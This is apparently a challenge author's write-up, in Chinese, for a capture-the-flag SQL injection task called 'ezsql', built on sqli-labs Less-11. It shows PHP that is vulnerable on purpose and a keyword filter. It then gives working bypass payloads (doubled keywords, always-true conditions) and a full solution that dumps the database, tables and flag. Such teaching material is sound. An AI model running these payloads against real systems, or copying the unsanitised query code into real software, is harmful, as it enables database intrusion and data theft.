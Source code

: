 # ezsql

## 出题思路

主要想考查对SQL注入简单过滤的绕过，出题的时候我想尽量修改一些小地方，让网上找的**payload**看似很接近，但实际上要真正理解知识点才能做出来。

题目是从最流行的**sqli-labs**找的，用**sqli-labs-less11**修改而来，前端写的比较拉，主要还是想搞笑。

![](http://pic.bamboo22.top/image/image-20240109213127702.png)

![image-20240109213140783](http://pic.bamboo22.top/image/image-20240109213140783.png)

## 出题过程

在**sqli-labs-less11**的源码基础上修改

````php+HTML
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-1 **Error Based- String**</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:70px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables 
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 


$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
</font> </div></br></br></br><center>
<img src="../images/Less-1.jpg" /></center>
</body>
</html>
````

前端就不多赘述，主要修改的代码如下：

修改了查询语句，主要是因为修改了数据库，所以查询的库名、表面变了

```php
$sql="SELECT username, trueflag FROM fflllaaaagggg WHERE username='$uname' and trueflag='$passwd' LIMIT 0,1";
```

在输入端增加了过滤，也就是想考察对SQL注入过滤的绕过。

```php
$uname=$_POST['uname'];
	$passwd=$_POST['passwd'];
	$uname = preg_replace("/\*|;|union|select|ascii|mid|ord|substr|like|substring|if|file|extractvalue|updatexml|floor|or|and|#|=|%23|-|<|>|\^|\|\|/i", '', $uname);
	$passwd = preg_replace("/\*|;|union|select|ascii|mid|ord|substr|like|substring|if|file|extractvalue|updatexml|floor|or|and|#|=|%23|-|<|>|\^|\|\|/i", '', $passwd);

echo 'your Username:';
echo $uname;
echo "<br>";
echo 'your Flag:';
echo $passwd;
```

加了两个正则表达式，并输出过滤后的结果，主要是方便大家看过滤了什么，是否绕过成功

正则很简单，过滤了一些关键字，都可以用双写绕过，原理也很简单，不多赘述。

过滤了注释符，这也是我主要想考的地方，**POST**注入用`#`注释，我把`#`和`%23`都ban了，这里一般都会想到使用万能密码`or '1'='1`这样的语句使SQL语句永真从而执行，来实现注释符的作用。

举个例子，一般的SQL注入的语句

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

当我拼接上查库的操作`-1' union select 1,2,database() or '1'='1`

```php
$sql="SELECT * FROM users WHERE id='-1' union select 1,2,database() or '1'='1' LIMIT 0,1";
```

可以发现最后的语句变成了`or '1'='1'`这个永真的式子，前面的SQL语句执行，从而达到注释符的作用。



**在本题中，我们查询的语句有两个，坑也在此埋下：**

当我们查询到数据库名时，用`oorr '1'='1`来结尾（这里其实ban了`=`,但是不影响注释效果，只要有右边`'`就行）

```
1' ununionion selselectect database(),2 oorr '1'='1
```

当在**Username**框中查询时，

<img src="http://pic.bamboo22.top/image/image-20240109232346348.png" alt="image-20240109232346348" style="zoom:80%;" />

会报错`Unknown column 'trueflag' in 'field list'`报错了，直接把我的字段名给爆出来了:sob:但是我没有改，就算知道我的字段名你也注不出来

如果我们换成在**Flag**框中查询时，发现成功了，库名被爆出来了

![image-20240109220703457](http://pic.bamboo22.top/image/image-20240109220703457.png)

看起来很玄，我们来分析一下源码,我将过滤后的语句拼接上去

在**Username**中输入：

```php
$sql="SELECT username, trueflag FROM fflllaaaagggg WHERE username='1' union select database(),2 or '1' like '1' and trueflag='$passwd' LIMIT 0,1";
```

推测一波：前面的语句应该被正常执行，但是，后面还有一个**and**，**and**后面的内容也会被执行，`$passwd`参数中没有输入，于是**and**后面的内容执行错误，报错`Unknown column 'trueflag' in 'field list'`

在本地的数据库中测试，可以看到第一次就是我们后台的SQL查询语句，报错，第二次我们删除**and**后面的内容，查询正常，证实了我们的猜想。

<img src="http://pic.bamboo22.top/image/image-20240109222206092.png" alt="image-20240109222206092" style="zoom:50%;" />

<img src="http://pic.bamboo22.top/image/image-20240109222230002.png" alt="image-20240109222230002" style="zoom:40%;" />

所以我们的所以查询语句都要在**Flag**框中才能达到我们想要的效果

继续往下进行注入,你应该不难翻出你的笔记，拼出如下查询语句

```
1' ununionion selselectect 1,group_concat(table_name) from infoorrmation_schema.tables where table_schema lilikeke 'flaginit' oorr '1' = '1
```

![image-20240109222644840](http://pic.bamboo22.top/image/image-20240109222644840.png)

然后发现第一位是回显第二位不是回显位，所以我们应该将查询语句放到第一位

```
1' ununionion selselectect group_concat(table_name) from infoorrmation_schema.tables where table_schema lilikeke 'flaginit' ,2 oorr '1' = '1
```

如果你这样修改，那恭喜你，又进坑了，报错了

![image-20240109223026285](http://pic.bamboo22.top/image/image-20240109223026285.png)

报错的原因很简单，`union select 1,2 #`联合查询的语句，但是语句中用空格，分不清查询的两个东西了，所以说得加括号`()`

````
1' ununionion selselectect(selselectect group_concat(table_name) from infoorrmation_schema.tables where table_schema lilikeke 'flaginit'),2 oorr '1' = '1
````

这样就ok了

走到这里应该就没什么大问题了，之后就是常规操作了

当然报错注入也是可以的，我试过，这里就留给师傅们自己测了。



## 完整WP

```
1' ununionion selselectect database(),2 && '1'lilikeke'1      #查库

1' ununionion selselectect (selselectect group_concat(table_name) from infoorrmation_schema.tables where table_schema lilikeke 'flaginit'),2 && '1' = '1
                                                              #查表
1' ununionion selselectect (selselectect group_concat(column_name) from infoorrmation_schema.columns where table_name lilikeke 'fflllaaaagggg'), 2 && '1' = '1
                                                              #查列
1' ununionion selselectect (selselectect group_concat(trueflag) from flaginit.fflllaaaagggg), 2 && '1' = '1                                                 #查数据


1' ununionion selselectect extraextractvaluectvalue(1,concat(0x7e,(selselectect group_concat(trueflag)from fflllaaaagggg))),2 && '1' = '1     #报错
```







## 总结

之前没什么出题经验，这个**ezsql**本来以为难度不大，但是最后只有一解，让我反思是不是题目有什么刁钻的地方，于是重新分析了一下题目，写了这篇出题思路，从中也有所收获。

首先当然是要理解基础的知识点，这道题不知道师傅们都卡在了哪一步，不知道上述讲的点是否囊括了所以容易卡住的地方，但是仔细去看这些地方，其实都是我们没有掌握牢固的知识点，所以基础知识很重要。其次就是SQL注入这样的复杂环境应该多去尝试、注入点、注入姿势、等等。

其实在出题时我也没有去研究这些可能卡主的地方，在结束后反思又学到了一些东西，所以做题的反思也很重要。